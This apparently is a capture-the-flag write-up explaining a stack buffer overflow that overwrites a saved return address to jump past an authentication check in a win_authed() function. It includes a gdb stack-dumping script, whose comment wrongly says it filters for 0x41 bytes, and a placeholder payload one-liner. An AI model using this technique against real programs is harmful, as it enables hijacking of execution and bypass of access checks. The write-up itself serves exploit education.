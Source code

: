 In this challenge we will overflow the buffer so that we can get to the memory location where return address is stored and change it to an address in win function that is after the condition which checks
for the autheticity of the parameter and before the address that prints the flag.

First I entered 4,5 A as input to see where the input variable starts from and then i located the return address by matching the return address which i got from objdump to a value on the stack. 

And for that i used the python script to print out all the stack from rsp to rbp.

```python
import gdb

# Function to read memory from rsp and print address and value if it's 0x41
def print_stack(rsp, rbp):
    num_bytes = rbp - rsp
    print(f"Reading memory from {hex(rsp)} to {hex(rsp + num_bytes)}:")

    # Iterate over the range of bytes
    
    for i in range(num_bytes+1):
        # Calculate the current memory address
        current_address = rsp + i
        
        # Read each byte from the address
        byte_value = gdb.parse_and_eval('*((unsigned char*){})'.format(hex(current_address)))

        # Print the address and value only if the value is 0x41
        print(f"Address: {hex(current_address)} | Value: {hex(byte_value)}")


# Get the current stack pointer (rsp)
rsp = gdb.parse_and_eval("$rsp")
rbp = gdb.parse_and_eval("$rbp")
print_stack(rsp, rbp)
```

Now we know from where the input buffer starts from and where the return address is, we can simply fill the space between return address and input variable and then the return address

The right address can be found using gdb and reading the disassembled code of `win_authed()` function.

Since we cannot have `\n` we will use python for this

    python -c 'import sys; sys.stdout.buffer.write(b"A"*(difference between input variable and return address location) + b"return address of win function in little endidan format")' | ./program

